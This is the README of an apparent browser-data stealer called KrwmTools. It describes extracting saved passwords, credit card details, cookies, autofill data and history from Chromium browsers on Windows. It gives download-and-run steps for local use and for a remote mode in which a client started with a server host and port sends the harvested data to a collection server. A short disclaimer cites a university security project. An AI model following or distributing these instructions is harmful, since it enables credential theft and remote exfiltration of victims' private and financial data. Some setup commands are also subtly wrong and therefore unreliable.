 # KrwmTools

A tool for extracting sensitive data from Chromium browsers on Windows. Able to extract:
- Credentials
- Autofill fields
- Autofill profiles
- Autofill addresses
- Autofill names
- Autofill emails
- Autofill phone numbers
- Credit card info
- Cookies
- History (search terms and web history)


## Local Extraction

![Local Demo](assets/local_demo.gif)

**Setup:**

<u>Option 1: Windows executable</u>
1. Download krwmtools-win.zip from Releases (on the right)
1. Extract and run the containing krwmtools.exe file. 

<u>Option 2: Directly with Python</u>
1. Install dependencies with `pip install client/requirements.txt`
1. Start the program with `python client/main.py`

Extracted data will be placed in your `Documents\KrwmTools\Client Logs` directory.

## Remote Extraction

![Remote Demo](assets/remote_demo.gif)

**Server Setup:**
1. Install dependencies with `pip install server/requirements.txt`
1. Start the program with `python server/server.py`

Extracted data will be placed in the server's `Documents\KrwmTools\Server Logs` directory.

**Client Setup:**

<u>Option 1: Windows executable</u>

1. Download krwmtools-win.zip from Releases (on the right)
1. Extract krwmtools.exe from the zip file
1. Open Command Prompt and change to the directory containing the extracted executable file
1. Start the executable with the -r or --remote flag: `krwmtools.exe -r [OPTIONAL: server_host] [OPTIONAL: server_port]`


<u>Option 2: Directly with Python</u>
1. Install dependencies with `pip install client/requirements.txt`
1. Start the program with the -r or --remote flag: `python client/main.py -r [OPTIONAL: server_host] [OPTIONAL: server_port]`

Note: if no server_host is specified, the client will try to find the server on localhost. Extracted data will also be placed in the client's `Documents\KrwmTools\Client Logs` directory. 



## Disclaimer
This tool was made for educational purposes (for a university security project). Please do not use it on others illegally or without their explicit consent, and note that I am not responsible for any damage.

